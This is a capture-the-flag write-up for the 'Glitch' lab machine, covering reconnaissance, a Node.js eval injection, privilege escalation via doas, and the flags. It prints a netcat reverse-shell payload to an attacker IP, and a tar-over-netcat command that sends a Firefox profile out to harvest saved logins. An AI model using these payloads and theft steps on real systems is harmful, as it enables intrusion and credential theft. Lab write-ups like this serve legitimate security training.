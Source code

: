 > Glitch

**export IP=10.10.8.41**

# Nmap

nmap -sC -sV -T4 -Pn -p- -vvv -oN nmap/initial $IP

```
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: not allowed
```

# Gobuster

sudo gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x txt,php,sql,zip,bin,tar,cgi -o gobuster/initial

```
/img (Status: 301)
/js (Status: 301)
/secret (Status: 200)
/Secret (Status: 200)
```

# Nikto

nitko -h http://$IP

```
+ Cookie token created without the httponly flag
+ Allowed HTTP Methods: GET, HEAD 
+ OSVDB-3092: /secret/: This might be interesting...
+ 7889 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2021-04-04 02:11:29 (GMT-4) (2301 seconds)
```

Inspecting the page we can see a script

```
      function getAccess() {
        fetch('/api/access')
          .then((response) => response.json())
          .then((response) => {
            console.log(response);
          });
      }
```

Trying to navigate to /api/access we can get our access token in base64 and decoding it we get `this_is_not_real`. Changing the token value to found one we find another site now.

Now looking at the source-code we find anothe js. 

## script.js

```
(async function () {
  const container = document.getElementById('items');
  await fetch('/api/items') => Let's try to access this
    .then((response) => response.json())
    .then((response) => {
      response.sins.forEach((element) => {
        let el = `<div class="item sins"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.errors.forEach((element) => {
        let el = `<div class="item errors"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.deaths.forEach((element) => {
        let el = `<div class="item deaths"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
    });

  const buttons = document.querySelectorAll('.btn');
  const items = document.querySelectorAll('.item');
  buttons.forEach((button) => {
    button.addEventListener('click', (event) => {
      event.preventDefault();
      const filter = event.target.innerText;
      items.forEach((item) => {
        if (filter === 'all') {
          item.style.display = 'flex';
        } else {
          if (item.classList.contains(filter)) {
            item.style.display = 'flex';
          } else {
            item.style.display = 'none';
          }
        }
      });
    });
  });
})();
```

Naviagting to /api/items we get a list of `sins`, `errors` and `deaths`.

## Hints

What other methods does the API accept?

Posting through curl we got a message

curl -X POST http://$IP/api/items

```
{"message":"there_is_a_glitch_in_the_matrix"}
```

Let's search for other methods using ffuf.

ffuf -w /usr/share/wordlists/dirb/common.txt -X POST -u http://10.10.15.186/api/items?FUZZ=teasasdasdasd -fs 45 -mc all 2>/dev/null

```
cmd                     [Status: 500, Size: 1090, Words: 55, Lines: 11]
Documents and Settings  [Status: 502, Size: 182, Words: 7, Lines: 8]
Program Files           [Status: 502, Size: 182, Words: 7, Lines: 8]
reports list            [Status: 502, Size: 182, Words: 7, Lines: 8]
```

When we supply a POST request to `/api/items?cmd=test` 

```
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: tets is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
</body>
</html>
```

We have an eval error and this is NodeJS server. Looking at PayloadAllTheThings we have a payload.

## Payload

`require('child_process').exec('nc -e /bin/sh 10.8.107.21 4444')`

Let's URLencode it and pass it through cmd parameter. Now a post request to /api/items

```
POST /api/items?cmd=require("child_process").exec("%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%38%2e%31%30%37%2e%32%31%20%34%34%34%34%20%3e%2f%74%6d%70%2f%66") HTTP/1.1
```

Now we have a shell as user!!

# user.txt

```
THM{i_don't_know_why}
```

## Hints:  My friend says that sudo is bloat.

# LinPeas

```
[+] Checking doas.conf
permit v0id as root
```

doas (“do as”) is a program to execute commands as another user. The system administrator can configure it to give specified users privileges to execute specified commands. So, now we have to be a v0id.

# PrivEsc as v0id

We have .firefox file which may contain some information.

Let's transfer the .firefox cintents to our machine and try to get info.

## In attacking machine

1. mkdir firefox
2. cd firefox
3. nc -l 9002 |tar xf -

## In Box machine

1. cd /home/user/.firefox
2. tar cf - . | nc 10.8.107.21 9002

And now we can open firefox using the command

`firefox --profile b5w4643p.default-release/ --allow-downgrade`

We can see the saved logins and now we have some creds. `v0id`:`love_the_void`. Now we are in as v0id.

# Privilege Escalation

doas -u root bash => We are root!!

# root.txt

```
THM{diamonds_break_our_aching_minds}
```